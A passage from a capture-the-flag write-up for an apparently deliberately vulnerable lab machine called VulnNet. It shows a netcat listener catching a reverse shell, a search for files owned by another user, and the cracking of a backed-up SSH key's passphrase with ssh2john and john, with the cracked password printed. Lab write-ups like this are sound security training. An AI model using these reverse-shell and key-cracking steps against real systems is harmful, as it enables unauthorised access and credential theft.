 ~~~
┌──(kali㉿kali)-[/data/VulnNet/files]
└─$ nc -nlvp 4444       
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.93.62] 60288
Linux vulnnet 4.15.0-134-generic #138-Ubuntu SMP Fri Jan 15 10:52:18 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 08:17:02 up  1:01,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

## Lateral move (www-data -> server-management)

Checking the `/home` folder, as well as the `/etc/passwd` file will confirm the existence of a `server-management` user. Let's check what files are owned by this user:

~~~
www-data@vulnnet:/home$ find / -type f -user server-management -exec ls -l {} + 2>/dev/null
<user server-management -exec ls -l {} + 2>/dev/null
-rw-rw-r-- 1 server-management server-management 1484 Jan 24 14:08 /var/backups/ssh-backup.tar.gz
~~~

Let's download the `/var/backups/ssh-backup.tar.gz` archive and uncompress the archive. It will result in a password-protected SSH private key. Let's crack it:

~~~
┌──(kali㉿kali)-[/data/VulnNet/files]
└─$ /data/src/john/run/ssh2john.py id_rsa > ssh.hash

┌──(kali㉿kali)-[/data/VulnNet/files]
└─$ /data/src/john/run/john ssh.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
oneTWO3gOyac     (id_rsa)
1g 0:00:00:05 DONE (2021-05-07 08:44) 0.1669g/s 2394Kp/s 2394Kc/s 2394KC/sa6_123..*7¡Vamos!
Session completed
~~~

John successfully cracked the password (`oneTWO3gOyac`).

## User flag

We can now connect and get the user flag:
